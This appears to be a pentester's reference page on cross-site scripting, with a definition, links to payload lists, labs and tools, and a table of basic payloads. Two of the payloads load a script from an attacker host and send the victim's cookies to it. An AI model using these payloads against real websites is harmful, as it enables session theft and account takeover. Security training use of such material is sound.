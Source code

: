 # Cross Site Scripting (XSS)

## **Introduction**

> Cross-Site Scripting (XSS) is a web security vulnerability that allows an attacker to compromise the interactions that users have with a vulnerable application.\
> XSS normally allows an attacker to masquerade as a victim user, carrying out any actions that the user is able to perform and accessing any of the user's data.\
> **Source:** [https://portswigger.net/web-security/cross-site-scripting](https://portswigger.net/web-security/cross-site-scripting)

***

## **XSS Useful References**

{% hint style="info" %}
Awesome labs to train your XSS skills:\
[https://xssy.uk/](https://xssy.uk/)
{% endhint %}

* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
* [https://github.com/s0md3v/AwesomeXSS?tab=readme-ov-file#awesome-bypassing](https://github.com/s0md3v/AwesomeXSS?tab=readme-ov-file#awesome-bypassing)
* [https://github.com/payloadbox/xss-payload-list](https://github.com/payloadbox/xss-payload-list)
* [https://github.com/terjanq/Tiny-XSS-Payloads](https://github.com/terjanq/Tiny-XSS-Payloads)
* [https://github.com/xsuperbug/payloads/](https://github.com/xsuperbug/payloads/)

***

## **XSS Tools**

* [https://github.com/alessio-romano/UniXSS](https://github.com/alessio-romano/UniXSS)
* [https://github.com/s0md3v/XSStrike](https://github.com/s0md3v/XSStrike)
* [https://github.com/rajeshmajumdar/BruteXSS](https://github.com/rajeshmajumdar/BruteXSS)
* [https://github.com/epsylon/xsser](https://github.com/epsylon/xsser)

***

## **Basic XSS Payloads**

| Code                                                                            | Description               |
| ------------------------------------------------------------------------------- | ------------------------- |
| `<script>alert(window.origin)</script>`                                         | Basic XSS Payload         |
| `<plaintext>`                                                                   | Basic XSS Payload         |
| `<script>print()</script>`                                                      | Basic XSS Payload         |
| `<img src="" onerror=alert(window.origin)>`                                     | HTML-based XSS Payload    |
| `<script src="http://OUR_IP/script.js"></script>`                               | Load remote script        |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>` | Send Cookie details to us |
